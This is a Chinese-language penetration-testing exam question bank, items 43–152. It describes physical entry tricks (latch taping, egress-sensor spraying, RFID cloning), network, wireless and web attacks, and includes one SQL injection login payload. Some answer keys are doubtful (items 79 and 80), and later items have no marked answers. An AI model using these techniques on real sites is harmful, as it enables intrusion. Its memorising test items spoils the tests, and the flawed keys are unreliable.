4.  **Egress sensor bypass** (出口传感器绕过)

### 43. 胶带绕过门锁舌

渗透测试人员冒充暖通空调维修人员进入设施，以检查冷风回风口为由请求进入服务器机房。离开时，她秘密在门锁舌上贴一块强力胶带，以便稍后未经授权再次进入。此技术称为？

1.  **Lock picking**
2.  **Lock bypass** (锁绕过)
3.  **Fence jumping**
4.  **Badge cloning** (工牌克隆)

### 44. 利用喷雾触发动作传感器

设施外部双层玻璃门安装有动作传感器，检测到人员离开时自动开锁。渗透测试人员向门缝中央喷射压缩空气罐触发传感器并开锁。此技术称为？

1.  **Lock picking**
2.  **Tailgating**
3.  **Fence jumping**
4.  **Egress sensor bypass**

### 45. 复制 RFID 工牌签名

渗透测试人员在美食车队伍中站在目标组织员工身后，窃取其门禁工牌并复制其 RFID 签名到伪造工牌上。此技术称为？

1.  **Egress sensor bypass**
2.  **Lock bypass**
3.  **Badge cloning**
4.  **Fence jumping**

### 46. 搬箱子请求开门 (尾随)

渗透测试人员清晨在停车场等待，见员工走向大门，便佯装笨拙搬运大箱子跟上，请求员工帮忙开门并进入设施。此技术称为？

1.  **Piggybacking** (搭便车/经授权尾随)
2.  **Tailgating** (尾随/未经授权跟随)
3.  **Lock bypass**
4.  **Badge cloning**

### 47. 混入吸烟群体进入后门 (搭便车)

渗透测试人员观察到员工在上午 10 点和下午 2 点聚集在后门吸烟。次日加入群体假装吸烟，群体结束时跟随他们走过后门进入。此技术称为？

1.  **Piggybacking**
2.  **Tailgating**
3.  **Lock bypass**
4.  **Badge cloning**

### 48. 剪开围栏潜入

目标设施四周有顶带刺铁丝的高铁丝网围栏。渗透测试人员发现偏远处围栏长满灌木，深夜用螺栓剪剪开缝隙以便日后潜入。此技术称为？

1.  **Egress sensor bypass**
2.  **Lock bypass**
3.  **Badge cloning**
4.  **Fence jumping**

### 49. 垃圾桶搜集敏感资料

渗透测试人员得知目标组织每周二清早收垃圾。周一深夜潜入垃圾箱，收集丢弃的文档、光盘、U 盘等存储设备。此场景属于哪种攻击？

1.  **Dumpster diving** (垃圾箱搜集)
2.  **Tailgating**
3.  **Fence jumping**
4.  **Egress sensor bypass**

### 50. 撬锁所需最小工具集 (多选)

撬锁至少需要哪两种工具？


# 内部锁芯机构图

# 喷雾润滑剂

# **张力扳手** (Tension wrench)

# **撬锁工具** (Lock pick tool)

## 51. 木楔卡住门闩 (锁绕过)

渗透测试人员冒充暖通空调维修人员进入机房，离开时在门框塞入小木楔，阻止门完全关闭，以便日后未经授权进入。此技术称为？

1.  **Lock picking**
2.  **Lock bypass**
3.  **Fence jumping**
4.  **Badge cloning**

## 52. 可被利用的出口传感器特性

出口传感器的哪项特性可被渗透测试人员利用，未经授权进入建筑物？

1.  **Emergency fail open** (紧急故障开启)
2.  Automatic locking (自动上锁)
3.  **Automatic unlocking via motion sensor for egress** (动作传感器检测出口自动开锁)
4.  Automatic unlocking via light sensor for egress (光传感器检测出口自动开锁)

## 53. 垃圾箱搜集 + 工牌克隆 (多选)

渗透测试人员翻垃圾桶发现丢弃的门禁工牌，以此为模板制作带自己照片的新工牌，并用设备读取原工牌磁条数据写入伪造工牌。使用了哪两种技术？

1.  **Lock picking**
2.  **Dumpster diving**
3.  **Fence jumping**
4.  **Badge cloning**
5.  **Lock bypass**

## 54. RFID 读取器隐蔽捕获签名 (工牌克隆)

渗透测试人员通过侦察得知员工使用 RFID 工牌开门，从公司网站识别高层员工，在停车场等待目标跟随进入大厅，利用藏在外套中的小型 RFID 读取器捕获工牌签名，制作伪造工牌并写入该签名。此技术称为？

1.  **Piggybacking**
2.  **Tailgating**
3.  **Lock bypass**
4.  **Badge cloning**

## 55. 端口 139 与 NBTSTAT (NetBIOS)

渗透测试人员执行灰盒测试，网络扫描发现主机开放 TCP 139 端口，疑为 Windows 系统，运行 `NBTSTAT` 命令获取关键信息。远程主机上哪个协议允许收集该信息？

1.  **NetBIOS**
2.  SNMP
3.  NAC
4.  SMTP

## 56. NBTSTAT -c 输出解析：DEV-1 <20> UNIQUE

灰盒渗透测试信息收集阶段，本地网络运行 `NBTSTAT -c`，输出包含：

```
Name Type Host Address Life [sec]
------------------------------------------------------------
DEV-1 <20> UNIQUE 10.0.0.3 517
```

关于 `DEV-1` 主机可知？

1.  **It is a server.** (服务器，`<20>` 标识文件服务器服务)
2.  It is a workstation.
3.  It is a router.
4.  It is a wireless device.

## 57. NBTSTAT -c 输出解析：PROD-9 <00> UNIQUE

同理，输出包含：

```
Name Type Host Address Life [sec]
------------------------------------------------------------
PROD-9 <00> UNIQUE 10.0.0.132 517
```

关于 `PROD-9` 主机可知？

1.  It is a server.
2.  **It is a workstation.** (工作站，`<00>` 标识工作站服务)
3.  It is a router.
4.  It is a wireless device.

## 58. LLMNR 协议特性 (多选)

关于链路本地多播名称解析 (LLMNR) 协议，哪两项正确？

1.  **It is commonly used in the absence of a DNS server.** (常用于无 DNS 服务器环境)
2.  It is not supported by Linux hosts. (Linux 亦支持，如 systemd-resolved)
3.  It is not supported by Windows hosts. (Windows Vista+ 默认启用)
4.  It is used only by routers, not by workstations or servers. (主机广泛使用)
5.  **It allows the IPv6 host to resolve hostnames on the same local link.** (允许 IPv6 主机解析本地链路上的主机名)

## 59. LLMNR 协议安全风险 (多选)

使用 LLMNR 协议有哪些安全风险？(选两项)

1.  **Data is transmitted as clear text.** (数据明文传输)
2.  **It lacks security controls.** (缺乏安全控制/认证机制)
3.  A malicious host can advertise itself as any host it wants to. (恶意主机可宣称任意身份，属 LLMNR/NBT-NS 投毒攻击利用方式，非协议固有风险描述)
4.  它可被用于协助发动 DDoS 攻击。
5.  它会产生过多的网络流量。

## 60. 服务器消息块（SMB）协议的功能是什么？（选择两项。）

1.  在网络上共享文件
2.  在邮件传输代理（MTA）之间传输电子邮件
3.  在网络上共享打印机
4.  将 IP 地址映射到 MAC 地址
5.  将电子邮件传输到邮件用户代理（MUA）

## 61. 以下哪些漏洞利用是由 SMB 协议中的弱点所助长的？（选择两项。）

1.  分布式拒绝服务（DDoS）
2.  Fraggle 攻击
3.  Teardrop 攻击
4.  **EternalBlue（永恒之蓝）**
5.  **WannaCry（想哭勒索软件）**

## 62. SMB 协议使用哪些端口？（选择两项。）

1.  53
2.  80
3.  **139**
4.  443
5.  **445**

## 63. 以下哪些漏洞与 SNMPv1 协议相关？（选择两项。）

1.  团体字符串对每个 SNMPv1 节点都有效。
2.  **团体字符串以明文形式传输。**
3.  团体字符串使用弱 RC2 密码。
4.  与 SNMPv1 主机通信不需要身份验证。
5.  管理信息库（MIB）以未加密格式存储。

## 64. SNMP 协议使用哪个端口？

1.  **UDP 161**
2.  TCP 23
3.  TCP 389
4.  UDP 88

## 65. 简单邮件传输协议（SMTP）的功能是什么？

1.  在网络上共享文件
2.  **在邮件传输代理（MTA）之间传输电子邮件**
3.  将 IP 地址映射到 MAC 地址
4.  将电子邮件传输到邮件用户代理（MUA）

## 66. 在灰盒渗透测试期间，你发现一台较旧的数据库服务器上运行着开放的 SMTP 服务。你想利用此 SMTP 服务向组织内的用户发送钓鱼邮件。这种漏洞利用叫什么？

1.  分布式拒绝服务
2.  **SMTP 中继**
3.  Fraggle 攻击
4.  Teardrop 攻击

## 67. 在灰盒渗透测试期间，你发现一台较旧的数据库服务器上运行着开放的 SMTP 服务。你想利用此 SMTP 服务向组织的 CEO 和 CFO 发送鲸钓邮件。如何从笔记本电脑远程实现此目的？

1.  **在端口 25 上 Telnet 到 SMTP 服务器的 IP 地址并创建邮件。**
2.  利用物理安全漏洞获取服务器控制台的访问权限，从而在其中创建邮件。
3.  使用冒充手段诱骗服务器管理员透露其远程桌面密码。
4.  以上皆非。

## 68. FTP 服务器使用哪些端口？（选择两项。）

1.  **20**
2.  **21**
3.  22
4.  23
5.  25

## 69. 在执行黑盒渗透测试时，你发现目标网络上一台未知的内部主机与互联网上的主机之间在端口 20 和 21 上传输了大量 FTP 数据。如何利用此流量来获取对目标网络上系统的访问权限？

1.  发动分布式拒绝服务（DDoS）攻击。
2.  发动 Land 攻击。
3.  **使用嗅探器捕获 FTP 流量。**
4.  使用匿名 FTP 访问将键盘记录器上传到 FTP 服务器。

## 70. 你正在进行灰盒渗透测试。你想获取高管（C-level executives）的身份验证凭据。为此，你搭建了一台伪造的内部 Web 服务器，其外观与用于管理员工休假和报销请求的真实 Web 服务器完全一致。你将一条伪造的 DNS 记录注入组织的 DNS 服务器，将来自真实服务器的流量重定向到你的伪造服务器。这种漏洞利用叫什么？

1.  **DNS 投毒**
2.  ARP 投毒
3.  钓鱼
4.  鲸钓

## 71. 以下哪项是可用于防御 DNS 投毒攻击的机制？

1.  **实施 DNSSEC。**
2.  在 DNS 服务器的主机防火墙中关闭端口 53。
3.  在路由器配置中禁用 ICMP 转发。
4.  对 DNS 查询使用 SSH。

## 72. 一名渗透测试人员正在进行灰盒渗透测试。她制作了一个特洛伊木马漏洞利用程序，该程序刷新本地工作站上的 DNS 缓存，并用指向伪造 Web 服务器的恶意名称解析条目替换它。当组织内的客户端尝试解析主机名时，将使用本地 DNS 缓存中的恶意条目。这种漏洞利用叫什么？

1.  DNS 投毒
2.  ARP 投毒
3.  **DNS 缓存投毒**
4.  中间人攻击

## 73. 一名渗透测试人员正在进行灰盒渗透测试。她注意到组织的一个分支机构使用仅缓存 DNS 服务器来处理名称解析请求。她向仅缓存 DNS 服务器发送一个针对名称解析请求的虚假回复，在回复数据包中使用伪造的源地址。虚假的名称解析记录将用户指向一个用于收集身份验证凭据的伪造 Web 服务器。这种漏洞利用叫什么？

1.  DNS 投毒
2.  ARP 投毒
3.  **DNS 缓存投毒**
4.  中间人攻击

## 74. 在执行灰盒渗透测试时，测试人员发现网络中的多台 Linux 工作站未加入组织的 Active Directory 域，尽管它们安装了 Samba 服务。为了访问 Windows 服务器上的共享文件夹，这些工作站使用 NT LAN Manager（NTLM）连接。测试人员捕获工作站与服务器之间传递的哈希用户凭据，随后重用它们与文件服务器建立新的经过身份验证的会话。这种漏洞利用叫什么？

1.  ARP 投毒
2.  Fraggle 攻击
3.  NAC 绕过
4.  **传递哈希**

## 75. 在灰盒渗透测试期间，测试人员在本地网段上发送一条伪造的 ARP 广播消息。结果，她的笔记本电脑的 MAC 地址现在映射到该网段上另一台有效计算机的 IP 地址。这种漏洞利用叫什么？

1.  DNS 缓存投毒
2.  **ARP 欺骗**
3.  传递哈希
4.  重放攻击

## 76. ARP 欺骗攻击被归类为哪种类型的漏洞利用？

1.  拒绝服务（DoS）
2.  **中间人攻击**
3.  分布式拒绝服务（DDoS）
4.  VLAN 跳跃

## 77. 在黑盒渗透测试期间，测试人员将车停在目标组织的停车场，并用笔记本电脑捕获从大楼发出的无线网络信号。通过这样做，他能够捕获授权无线客户端连接网络时使用的握手过程。随后，他在无线网络上重发此握手，使他的笔记本电脑能够以该授权客户端的身份连接到无线网络。这是哪种漏洞利用？

1.  DNS 缓存投毒
2.  ARP 欺骗
3.  传递哈希
4.  **重放攻击**

## 78. 重放攻击通常被归类为哪种类型的漏洞利用？

1.  拒绝服务（DoS）
2.  NAC 绕过
3.  分布式拒绝服务（DDoS）
4.  **中间人攻击**

## 79. 在灰盒渗透测试期间，测试人员能够拦截从客户端传输到服务器的数据包。测试人员的工作站向客户端伪装成服务器。测试人员能够修改数据包中的数据，然后将其发送给服务器。测试人员的工作站向服务器伪装成客户端。这是什么漏洞利用？

1.  **中继攻击**
2.  DNS 缓存欺骗
3.  传递哈希
4.  重放攻击

## 80. 在灰盒渗透测试期间，测试人员能够拦截从客户端传输到服务器的数据包。测试人员的工作站向客户端伪装成服务器。测试人员查看数据包中的数据，但在将数据转发给服务器之前不进行修改。这是什么漏洞利用？

1.  **中继攻击**
2.  DNS 缓存欺骗
3.  传递哈希
4.  重放攻击

## 81. 哪种类型的漏洞利用会欺骗 Web 服务器，使其向用户的 Web 浏览器呈现 HTTP 连接，而不是用户最初请求的 HTTPS 连接？

1.  **SSL 剥离**
2.  中继攻击
3.  NAC 绕过
4.  跨站脚本

## 82. 防御 SSL 剥离攻击的最佳方法是什么？

1.  更新用户工作站上的病毒定义。
2.  实施网络入侵检测 (NID) 设备。
3.  **实施严格的 HSTS 策略，防止用户的浏览器在未使用 HTTPS 连接的情况下打开页面。**
4.  重新配置所有浏览器以要求 TLS 会话。

## 83. 在灰盒渗透测试期间，测试者充当 Web 服务器和最终用户工作站之间的中间人。当用户的浏览器使用 TLS 1.2 向 Web 服务器请求页面时，测试者篡改了请求，并指定改用 SSL 2.0 来保护会话。此场景中发生了哪种漏洞利用？

1.  SSL 剥离
2.  **降级攻击**
3.  NAC 绕过
4.  重放攻击

## 84. 在灰盒渗透测试期间，测试者想要实施降级中间人攻击，将 Web 浏览器会话的安全性从 TLS 降级到 SSL。攻击者可以使用什么漏洞利用来欺骗客户端工作站接受其未发起的流量，使其难以响应合法的网络请求。这是什么类型的漏洞利用？

1.  **拒绝服务 (DoS)**
2.  分布式拒绝服务 (DDoS)
3.  重放攻击
4.  NAC 绕过

## 87. 以下哪项可防止未经授权或不健康的设备连接到网络，即使它们已正确连接到有线或无线网络？

1.  **网络准入控制 (NAC)**
2.  WPA2-PSK
3.  虚拟局域网 (VLAN)
4.  生成树协议 (STP)

## 88. 在灰盒渗透测试期间，你尝试将笔记本电脑连接到目标的无线网络。然而，目标实施了 NAC，阻止你的笔记本电脑连接到生产网络。你可以怎么做？

1.  运行暴力破解解密攻击以破解保护生产网络的 IPSec 加密。
2.  **使用授权设备的 MAC 地址欺骗你的笔记本电脑。**
3.  将笔记本电脑插入有线网口。
4.  创建一个邪恶双子接入点。

## 89. 在许多 NAC 实现中，哪些类型的网络设备通常被列入白名单？（选择两项。）

1.  笔记本电脑
2.  台式机
3.  服务器
4.  **VOIP 电话**
5.  **SCADA 设备**

## 90. 哪种方法常用于在 VLAN 之间跳转？

1.  **双重标记**
2.  暴力攻击
3.  MAC 地址欺骗
4.  DNS 投毒

## 91. 你正在执行灰盒渗透测试。为了从多个 VLAN 捕获信息，你将计算机中的网卡配置为模拟网络交换机上的中继端口。你的目标是让真正的交换机将所有 VLAN 的流量转发到你的设备。这种漏洞利用叫什么？

1.  MAC 地址欺骗
2.  双重标记
3.  **交换机欺骗**
4.  邪恶双子

## 92. 哪种无线漏洞利用使用特殊的无线设备监听其他无线设备的 SSID 请求，然后冒充请求的接入点？

1.  **Karma 攻击**
2.  解除认证攻击
3.  降级攻击
4.  流氓接入点

## 93. 你正在执行黑盒渗透测试。你想执行邪恶双子攻击以捕获无线用户数据。你需要完成以下哪些任务？（选择两项。）

1.  实施分片攻击。
2.  **发送解除认证帧以解除无线客户端的认证。**
3.  **让无线客户端重新连接到一个与目标组织 SSID 相同的接入点。**
4.  使用暴力攻击破解 WPS PIN 码。
5.  重复无线网络信号。

## 94. 哪种无线加密密钥破解漏洞利用涉及从捕获的无线数据包中提取少量密钥材料，然后向接入点发送 ARP 帧？

1.  重放攻击
2.  降级攻击
3.  解除认证攻击
4.  **分片攻击**

## 95. 哪种无线漏洞利用可通过为无线网络创建虚假的强制门户来捕获受害者的用户名和密码来实施？

1.  重放攻击
2.  **凭据收集**
3.  Bluesnarfing（蓝牙窃取）
4.  干扰攻击

## 96. 哪种无线漏洞利用涉及使用暴力攻击破解八位数字 PIN 码？

1.  分片攻击
2.  凭据收集
3.  Bluejacking（蓝牙劫持）
4.  **WPS 破解**

## 97. 哪种无线漏洞利用涉及通过蓝牙连接向无线设备发送未经请求的消息？

1.  解除认证攻击
2.  Bluesnarfing（蓝牙窃取）
3.  **Bluejacking（蓝牙劫持）**
4.  WPS 破解

## 98. 哪种无线漏洞利用涉及与蓝牙设备（如手机）建立未经授权的连接，并从中窃取信息？

1.  解除认证攻击
2.  **Bluesnarfing（蓝牙窃取）**
3.  Bluejacking（蓝牙劫持）
4.  WPS 破解


### 99. 渗透测试人员得知目标组织的员工使用 RFID 门禁卡解锁设施内的门。她确定了一家员工常聚餐的餐厅。第二天，她坐在餐厅里一群员工附近的桌子旁，带着一个小型隐藏的 RFID 读取器。她捕获了员工门禁卡的 RFID 签名，然后使用这些签名制作了伪造的门禁卡。这种技术叫什么？

1.  WPS 破解
2.  凭据收集
3.  干扰
4.  **RFID 克隆**

### 100. 哪种无线漏洞利用更多的是一种压力测试，旨在阻止用户使用无线网络？

1.  Karma 攻击
2.  解除认证攻击
3.  降级攻击
4.  **干扰攻击**

### 101. 渗透测试人员冒充自动售货机维修人员进入目标组织的设施。在内部，测试人员在自动售货机后藏了一个无线设备，该设备捕获组织无线网络的无线电信号，并以高增益向停车场重新广播。测试人员在此场景中采用了哪种无线漏洞利用？

1.  Karma 攻击
2.  **重放攻击**
3.  降级攻击
4.  干扰攻击

### 102. 渗透测试人员正在目标组织使用的 Web 应用程序中搜索漏洞。在登录页面，她在密码字段中输入了以下文本字符串：

```
*   UNION SELECT Username, Password FROM Users;
```

此示例中使用了哪种类型的漏洞利用？

1.  **SQL 注入**
2.  HTML 注入
3.  命令注入
4.  代码注入

### 103. 密码猜测攻击类型

渗透测试人员查看目标组织 CIO 拥有的社交媒体账户，并列出可能的密码，如配偶姓名、宠物姓名、喜爱的运动队等。测试人员尝试使用这些可能的密码逐一登录 CIO 的账户，试图找到一个有效的密码。这属于哪种认证漏洞利用类型？

1.  **凭证暴力破解**
2.  会话劫持
3.  重定向攻击
4.  密码破解

### 104. 会话劫持

在灰盒渗透测试期间，测试人员使用 `Wireshark` 嗅探员工 Web 浏览器与网站之间的网络流量，并捕获了会话 Cookie。测试人员随后能够在不获取用户实际认证凭证的情况下冒充受害者。此场景中使用了哪种认证漏洞利用？

1.  Kerberos 漏洞利用
2.  **会话劫持**
3.  重定向攻击
4.  密码破解

### 105. 重定向攻击

在灰盒渗透测试期间，测试人员使用网络钓鱼邮件将用户发送到一个伪造的登录页面，该页面外观类似于目标组织的人力资源自助服务页面。该伪造页面用于捕获员工的凭证。此场景中使用了哪种认证漏洞利用？

1.  Kerberos 漏洞利用
2.  会话劫持
3.  **重定向攻击**
4.  凭证暴力破解

### 106. 默认凭证攻击

在黑盒渗透测试期间，测试人员发现组织的无线接入点配置了管理员用户名 `admin` 和密码 `Admin`。测试人员获得了接入点的管理访问权限。此场景中发生了哪种认证漏洞利用？

1.  弱凭证漏洞利用
2.  重定向攻击
3.  **默认凭证攻击**
4.  凭证暴力破解

### 107. 弱凭证漏洞利用

某组织的网络管理员将网络防火墙配置为管理员用户名 `admin` 和密码 `password`。该设备容易受到哪种认证漏洞利用？

1.  **弱凭证漏洞利用**
2.  重定向攻击
3.  会话劫持
4.  Kerberos 漏洞利用

### 108. Kerberos 漏洞利用

在灰盒渗透测试期间，测试人员能够运行一个漏洞利用程序，从组织 Active Directory 域的密钥分发中心（`KDC`）接收票据授予票据（`TGT`）。此场景中发生了哪种认证漏洞利用？

1.  凭证暴力破解漏洞利用
2.  重定向攻击
3.  会话劫持
4.  **Kerberos 漏洞利用**

### 109. 授权漏洞利用（多选）

哪些授权漏洞利用通过修改 HTTP 请求中的参数来获得对信息的未授权访问？（选择两项。）

1.  **参数污染**
2.  **不安全的直接对象引用漏洞利用**
3.  跨站脚本攻击
4.  跨站请求伪造
5.  重定向攻击

### 110. 基于 DOM 的 XSS

哪种形式的跨站脚本（`XSS`）攻击利用在受害者计算机上本地运行的旧版、易受攻击的 Web 浏览器？

1.  存储型/持久型
2.  点击劫持
3.  反射型
4.  **文档对象模型（`DOM`）**

### 111. 服务端 XSS 攻击形式（多选）

哪些形式的跨站脚本（`XSS`）攻击被认为是服务端漏洞利用？（选择两项。）

1.  **存储型/持久型**
2.  **反射型**
3.  文档对象模型（`DOM`）
4.  点击劫持
5.  目录遍历

### 112. 跨站请求伪造（CSRF）

在灰盒渗透测试期间，测试人员注意到组织的人力资源自助服务 Web 应用程序使用 Active Directory 用户账户进行认证。登录页面还包含“记住我”选项。测试人员向组织内的高层员工发送主题为“看看这张有趣的图片”的电子邮件。当打开邮件时，隐藏的 HTML 代码实际上向自助服务 Web 应用程序发送了一个 HTTP 请求，更改了用户的密码。该攻击依赖于该网站保存的会话 Cookie 才能生效。这是哪种认证漏洞利用？

1.  跨站脚本（`XSS`）
2.  **跨站请求伪造（`CSRF`）**
3.  点击劫持
4.  凭证暴力破解

### 113. 点击劫持

哪种认证漏洞利用利用同一网页内的透明层，诱使用户点击按钮或链接，而用户以为自己只是在点击页面的顶层？

1.  文件包含
2.  跨站请求伪造（`CSRF`）
3.  **点击劫持**
4.  Cookie 操纵

### 114. 目录遍历

Web 服务器上的哪种安全配置错误允许最终用户通过 Web 浏览器访问站点并浏览 Web 服务器的文件系统？

1.  **目录遍历**
2.  Cookie 操纵
3.  文件包含
4.  弱凭证

### 115. Cookie 操纵

哪种安全配置错误允许由用户 Web 浏览器运行的脚本向客户端 Cookie 写入数据？

1.  目录遍历
2.  **Cookie 操纵**
3.  跨站请求伪造（`XSRF`）
4.  点击劫持

### 116. 文件包含漏洞（多选）

渗透测试人员正试图利用目标组织使用的 Web 应用程序。他使用 Web 应用程序中的表单字段将恶意可执行文件上传到 Web 服务器。以下哪项描述了这种漏洞利用？（选择两项。）

1.  Cookie 操纵
2.  目录遍历
3.  **本地文件包含**
4.  跨站脚本（`XSS`）
5.  **远程文件包含**

### 117. 不安全编码实践（多选）

以下哪项是不安全编码实践的示例？

1.  在源代码中包含注释
2.  检查输入字段的格式是否正确
3.  包含处理错误条件的子程序
4.  对代码进行数字签名
5.  **提供冗长的错误消息**

### 118. 不安全编码实践（多选）

以下哪项是不安全编码实践的示例？

1.  发布前从源代码中移除注释
2.  检查输入字段的格式是否正确
3.  **缺乏错误处理例程**
4.  **缺乏代码签名**
5.  移除过于冗长的错误消息

### 119. 硬编码凭证

Web 应用程序程序员将访问数据库实例所需的用户名和密码包含在应用程序的 `PHP` 代码中。这是哪种不安全代码实践的示例？

1.  源代码中的注释
2.  竞争条件
3.  未经授权的函数使用/未受保护的 API
4.  **硬编码凭证**

### 120. 隐藏元素

Web 应用程序开发人员在表单页面中包含了以下 HTML 代码：

```
<input type=hidden>
```

这是哪种不安全代码实践的示例？

1.  源代码中的注释
2.  **隐藏元素**
3.  未经授权的函数使用/未受保护的 API
4.  竞争条件

### 121. 漏洞研究

在执行灰盒渗透测试时，你发现目标组织在其计算机上使用多种不同的操作系统。你已识别出 `Windows`、`Mac OS` 和 `Linux` 系统，甚至发现一台 `UNIX` 服务器系统。此外，员工自带移动设备上班并连接到组织的无线网络，因此你发现了许多 `Android` 和 `iOS` 设备。此时，你需要识别高价值设备上存在的操作系统漏洞。你应该怎么做？

1.  **研究通用漏洞披露（`CVE`）数据库。**
2.  研究通用攻击模式枚举与分类（`CAPEC`）数据库。
3.  研究计算机应急响应小组（`CERT`）网站。
4.  在渗透测试论坛上发帖提问。

### 122. 不安全服务或协议（多选）

以下哪些被视为不安全的服务或协议？（选择两项。）

1.  `LDAPS`
2.  `SSH`
3.  **`FTP`**
4.  **`Telnet`**
5.  `HTTPS`

### 123. 以下哪项会被视为不安全的服务或协议配置？（选择两项。）

1.  使用 `SSHv1` 而非 `SSHv2`
2.  使用 `SNMPv3` 而非 `SNMPv1`
3.  使用 `WPA2` 而非 `WEP`
4.  使用 `SSL 2.0` 而非 `TLS 1.2`

### 124. 在渗透测试期间，你需要在 Linux 系统上使用提权。操作系统的哪些功能可用于允许可执行文件以超级用户级权限运行？（选择两项。）

1.  以管理员身份运行
2.  分配 `SGID` 特殊权限
3.  分配 `SUID` 特殊权限
4.  从子 `BASH` Shell 会话运行
5.  分配粘滞位权限

### 125. 当分配给目录时，哪种 Linux 特殊权限可防止用户删除他们不拥有的文件，即使他们对该目录拥有写和执行权限？

1.  `SGID`
2.  `SUID`
3.  粘滞位
4.  `Ret2libc`

### 126. 在 Linux 系统上，标准用户可以使用哪个程序以 root 身份执行程序？

1.  `sudo`
2.  `ps`
3.  `top`
4.  `nice`

### 127. 哪种 Linux 漏洞利用会导致子程序的返回地址被替换为进程内存中已存在的子程序的地址？

1.  `SGID`
2.  粘滞位
3.  `Ret2libc`
4.  不安全的 `sudo`

### 128. 以下哪项是指存储 Windows 组策略首选项项目中密码的属性名称？

1.  `cPassword`
2.  `TGT`
3.  `TGS`
4.  `LSASS`

### 129. 在渗透测试期间，你发现管理员正在端口 388 上使用明文 LDAP 来更新其符合 LDAP 标准的目录服务中的用户帐户，包括用户凭据。你应该建议客户采取什么措施来修复此问题？

1.  建议他们停止使用 LDAP 客户端管理用户帐户。
2.  建议他们在端口 636 上使用启用 SSL 的 LDAP。
3.  建议他们改用非 LDAP 目录服务。
4.  建议他们在端口 22 上使用启用 SSH 的 LDAP。

### 130. 在灰盒渗透测试期间，测试人员登录到目标组织的域并为已注册的服务请求服务主体名称 (SPN)。收到一张票据，测试人员将其离线并尝试破解其加密。这种漏洞利用叫什么？

1.  沙箱逃逸
2.  Kerberoasting
3.  DLL 劫持
4.  冷启动攻击

### 131. 以下哪项是在 Windows 系统上运行并强制执行系统安全策略的服务？

1.  `LSASS`
2.  密钥分发中心 (KDC)
3.  组策略对象 (GPO)
4.  `LDAP`

### 132. 哪项 Windows 功能可能允许认证凭据以明文形式通过网络连接传输？

1.  通过 `PXE` 进行无人值守安装
2.  `JTAG` 调试
3.  远程桌面
4.  加入域

### 133. Windows 系统上的 SAM 数据库中存储了什么？

1.  安全日志条目
2.  与系统上安装的每个应用程序关联的数字签名
3.  组策略设置
4.  哈希后的帐户密码

### 134. 在灰盒渗透测试期间，测试人员创建了一个网络钓鱼活动，诱使用户下载一个特洛伊木马应用程序，该程序悄悄地将本地系统上的一个关键动态链接库文件替换为修改版，在执行时加载键盘记录器。这种漏洞利用叫什么？

1.  `JTAG` 调试
2.  冷启动攻击
3.  `cPassword`
4.  DLL 劫持

### 135. 以下哪些是 Windows 系统上的服务可能被利用的方式？（选择两项。）

1.  使用未加引号的服务路径
2.  替换可写服务的可执行文件
3.  实施冷启动攻击
4.  泄露 `LSASS` 中的凭据

### 136. 以下哪种问题可能使渗透测试人员能够在 Windows 系统上执行 DLL 劫持漏洞利用？

1.  未能安装最新的 Windows 更新
2.  使用过时的病毒定义
3.  使用不安全的文件和文件夹权限
4.  未能在组策略中配置用户帐户限制

### 137. 以下哪些技术可用于帮助在 Windows 系统上保持漏洞利用的持久性？（选择两项。）

1.  使用计划任务
2.  使用冷启动攻击
3.  实施 Kerberoasting
4.  使用 DLL 劫持
5.  寻找内核漏洞

### 138. 防御内核漏洞利用的最佳方法是什么？

1.  更新系统的防病毒定义。
2.  安装最新的操作系统更新。
3.  使用安全的文件和文件夹权限。
4.  在组策略中实施用户帐户限制。

### 139. 在灰盒渗透测试期间，测试人员发现组织的一个防火墙配置了管理用户名 `admin` 和密码 `Admin`。测试人员获得了防火墙的管理访问权限并在其中打开了漏洞。此场景中发生了哪种认证漏洞利用？

1.  弱凭据漏洞利用
2.  重定向攻击
3.  默认帐户设置漏洞利用
4.  凭据暴力破解

### 140. 以下哪些是沙箱逃逸漏洞利用的示例？（选择三项。）

1.  冷启动攻击
2.  Shell 升级
3.  虚拟机 (VM) 逃逸
4.  容器逃逸
5.  `Ret2libc`
6.  `JTAG` 调试

### 141. 在渗透测试期间，测试人员获得了对 Windows 服务器系统的物理访问权限，并从安装了 Linux 发行版的闪存驱动器重新启动了它。她能够绕过安全性并将关键文件从服务器复制到闪存驱动器，以供后续破解和分析。此场景中发生了哪种类型的漏洞利用？

1.  冷启动攻击
2.  Shell 升级漏洞利用
3.  VM 逃逸漏洞利用
4.  `JTAG` 调试漏洞利用

### 142. 渗透测试人员将一个特殊设备连接到制造商在主板上实现的诊断端口，并能够从系统寄存器捕获数据。此场景中发生了哪种类型的漏洞利用？

1.  冷启动攻击
2.  Shell 升级漏洞利用
3.  VM 逃逸漏洞利用
4.  `JTAG` 调试漏洞利用

### 143. 在路由器和交换机等网络设备上启用串行控制台连接有什么风险？

1.  网络管理员倾向于未对其进行适当保护。
2.  它们容易发生数据泄漏。
3.  攻击者很容易连接到它们。
4.  攻击者很容易从它们嗅探数据。

### 144. 以下哪项用于 Windows 系统，以允许你在网络中其他位置的另一台 Windows 系统上远程执行代码？

1.  `RPC/DCOM`
2.  `X-server`
3.  `RSH`
4.  `Rlogin`

### 145. 以下哪项是可在 Windows 系统上使用的实用程序，允许你建立到远程 Windows 系统控制台的命令行访问，非常像旧的 Telnet 客户端？

1.  `PsExec`
2.  `VNC`
3.  `RSH`
4.  `Rlogin`

### 146. 以下哪项提供了一种基础设施，用于通过网络从集中位置管理 Windows 系统？

1.  `SMB`
2.  `VNC`
3.  `WMI`
4.  `RDP`

### 147. 以下哪些 Windows 功能可用于通过网络连接远程管理 Windows 系统？（选择两项。）

1.  `SMB`
2.  `Telnet`
3.  `PS Remoting`
4.  `WinRM`
5.  `SSH`

### 148. 以下哪项可用于通过网络连接使用图形用户界面远程管理 Windows 系统？

1.  `SMB`
2.  `RDP`
3.  `PS Remoting`
4.  `PsExec`
5.  `SSH`

### 149. 以下哪项可用于通过网络连接使用图形用户界面远程管理 Macintosh 系统？

1.  Rlogin
2.  RDP
3.  ARD
4.  PsExec
5.  RSH

### 150. 以下哪项可用于通过网络连接使用图形用户界面远程管理 Windows、Macintosh 或 Linux 系统（前提是已安装必要的软件）？

1.  VNC
2.  RDP
3.  ARD
4.  WMI
5.  RSH

### 151. 以下哪项可用于通过网络连接使用图形用户界面远程管理 Linux 系统？

1.  X11 转发
2.  RDP
3.  ARD
4.  WMI
5.  SMB

### 152. 为什么在进行渗透测试时应避免使用 Telnet、rlogin 和 rsh 等实用程序？

1.  它们传输数据缓慢。
2.  它们仅提供命令行界面。
3.  它们以明文形式在网络上传输数据。
4.  现代操作系统不再支持它们。

